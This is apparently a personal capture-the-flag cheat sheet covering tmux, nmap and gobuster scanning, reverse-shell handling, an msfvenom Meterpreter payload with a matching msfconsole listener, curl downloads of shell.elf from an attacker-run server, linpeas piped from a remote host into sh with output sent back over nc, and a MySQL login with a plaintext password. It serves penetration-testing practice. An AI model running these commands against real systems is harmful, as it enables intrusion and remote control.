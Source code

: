 ```yaml
---
layout: single
classes: #wide
title: "General CTF"
sidebar:
    title: "CTF knowledge"
    nav: infosec
collection: infopages
permalink: /ctfs_n_such/general
toc: true
toc_sticky: true
author_profile: true
---
```


Keepin it simple

strace - see how program exited

`find . -name "*.txt"`

# Tmux
re-attach session:  
`tmux a`  
Attach file session:  
`tmux -S <name>`   
Rename session:  
`prefix + $`    
Pane -> Window:
`prefix + !`  
Move pane left/right:  
`prefix + { or }`
Save / restore:  
`prefix + s / r`

# Nmap 
basic scan:  
```nmap -sV -sC -T4 -p- -oN nmap $url```  


# Fuzzing 
quick fuzz:  
```gobuster dir -u $url -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 100 -o gobuster```

recursive:  
```shuffledns``` 
# shells

reverse shell tips:  
```rlwrap nc -lnvpn``` (reverse shell with better fuctionality/arrowkeys)  

after get shell:  
```python3 -c 'import pty;pty.spawn("/bin/bash")'``` or ```script /dev/null -c bash```  
```ctrl - z```(to background the nc process)  
```stty raw -echo;fg```
```export TERM=xterm```   
* makes able to clear term
* better machine access

## Meterpreter
Basic meterpreter payload:   
```msfvenom -p linux/x86/meterpreter/reverse_tcp --encoder x86/shikata_ga_nai LHOST=10.10.14.236 LPORT=8888 -f elf -o shell.elf```  

# Msfconsole
listener for rev shell:  
```
use exploit/multi/handler 
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST tun0 
set LPORT 8888 
run
```

# curl
```python -m http.server 6969```
```curl 10.10.16.20:6969/shell.elf -o /tmp/shell.elf```


# linpeas
[url](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
`less -r` - view linpeas results   
`./linpeas.sh >> output`  
Linpeas from mem -> host:  
```
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002
```

# Mysql
`mysql -u craftuser -pCraftCMSPassword2023! -h localhost craftdb`